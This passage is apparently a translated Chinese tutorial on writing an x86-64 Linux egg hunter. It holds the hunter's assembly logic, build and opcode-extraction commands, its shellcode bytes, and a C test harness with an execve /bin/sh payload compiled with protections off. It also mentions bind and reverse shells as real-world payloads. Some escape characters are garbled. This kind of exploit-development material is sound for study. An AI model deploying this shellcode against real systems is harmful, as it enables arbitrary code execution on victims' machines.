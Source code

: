 其中的next_page标签包含将地址递增到下一个4096的倍数的代码，也就是内存中的下一页。

对于next_4_bytes标签，我们基本上是通过access系统调用来验证RDI中内存地址的可访问性，如果可访问，我们就获取其中的4个字节并与我们的Egg进行比较。

在编译之后：

```
# nasm -felf64 egghunter.nasm -o egghunter.o &amp;&amp; ld egghunter.o -o egghunter
```

提取十六进制代码：

```
# for i in `objdump -d egghunter | tr ‘t’ ‘ ‘ | tr ‘ ‘ ‘n’ | egrep ‘^[0-9a-f]`{`2`}`$’ ` ; do echo -n “x$i” ; done
 
x48x31xf6x56x5fx66x81xcfxffx0fx48xffxc7x6ax15x58x0fx05x3cxf2x74xefxb8xbdxefxbexefxfexc0xafx75xedxffxe7
```

将其添加到shellcode.c测试环境（使用简单的execve作为Payload）：



```
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#define EGG “xBExEFxBExEF”
unsigned char hunter[] = 
“x48x31xf6x56x5fx66x81xcfxffx0fx48xffxc7x6ax15x58x0fx05x3cxf2x74xefxb8xbdxefxbexefxfexc0xafx75xedxffxe7”;
unsigned char payload[] = 
EGG
“x6ax3bx58x99x52x48xbbx2fx2fx62x69x6ex2fx73x68x53x54x5fx52x54x5ax57x54x5ex0fx05”;
int main(void) `{`
printf(“Egg hunter’s size (bytes): %lun”, strlen(hunter));
printf(“Payload’s size (bytes): %lun”, strlen(payload));
int (*ret)() = (int(*)())hunter;
ret();
`}`
```

并进行编译：

```
# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

最后成功运行：

[![](https://pentesterslife.files.wordpress.com/2017/11/fig94.png)](https://pentesterslife.files.wordpress.com/2017/11/fig94.png)

在这个例子中，由于我使用了execve作为Payload，所以实际的Payload是比Egg Hunter小的，就显得非常奇怪。然而，这个例子并不能在远程攻击中为我们带来价值。**在实际场景中，我们会使用类似于主动连接（Bind Shell）或者反向TCP连接（Reverse TCP Shell）的方式。**

**<br>**

**进一步提升效率**
